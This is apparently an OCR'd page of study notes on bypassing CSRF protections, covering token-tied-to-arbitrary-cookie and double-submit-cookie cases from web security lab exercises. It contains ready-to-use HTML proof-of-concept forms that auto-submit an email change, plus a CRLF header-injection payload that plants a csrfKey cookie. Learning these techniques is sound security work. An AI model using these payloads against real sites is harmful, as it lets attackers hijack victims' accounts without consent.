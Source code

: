 5. Deliver exploit to victim
# CSRF Protection Bypass (Token Tied to Arbitrary Cookie)

A CSRF token may be tied to an arbitrary cookie. If the app contains some functionality that allows you to set a cookie in the victim's browser, you may be able to bypass it.

The attacker must log into the app, obtain a valid CSRF token and the cookie it is mapped to. Afterwards, they create a crafted CSRF exploit that sets the known cookie in the victim's browser then submits the POST request with the necessary parameters, which include the known CSRF token.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="iH07e8eJkWw" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="$cookie-injection-url" onerror="document.forms[0].submit()">
  </body>
</html>
```

1. Find vulnerable state-changing request.
2. Submit a request
3. Play around with the cookies (which one for session, which one for CSRF keys)
4. Change CSRF token value and submit request
5. If CSRF cookie only results in token being rejected, it may not be tied to the session
6. Submit valid CSRF token from another user
7. If invalid token, key/token are tied together
8. Submit valid CSRF token and cookie from another user
9. If successful, it is vulnerable
10. Inject csrfKey cookie in session via header injection (search term gets added as cookie)
	- hat%0d%0aSet-Cookie:%20csrfKey=value
11. Generate CSRF PoC and change CSRF token value
12. Add the following line in replacement of the auto submit `<img src="https://0ac4002e043977048170575f002b006a.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=N6C9lRJbvtR4vB7qR86ipkg0GyB71XHy%3b%20SameSite=None" onerror="document.forms[0].submit()">`
13. Deliver to the victim
# CSRF Protection Bypass (Double Submit Cookie Method)

App may be using a double submit cookie for CSRF protection. There may be a CSRF cookie and a CSRF token parameter in the state-changing request. The 2 values can contain the exact same data - the app processes the request successfully if the 2 values are equal.

If the app contains some functionality that allows you to set a cookie in the victim's browser, it may be possible to bypass it by crafting a payload that will set a cookie in the victim's browser and supply the same value as the CSRF token parameter in the HTML form:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="iH07e8eJkWw" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="$cookie-injection-url" onerror="document.forms[0].submit()">
  </body>
```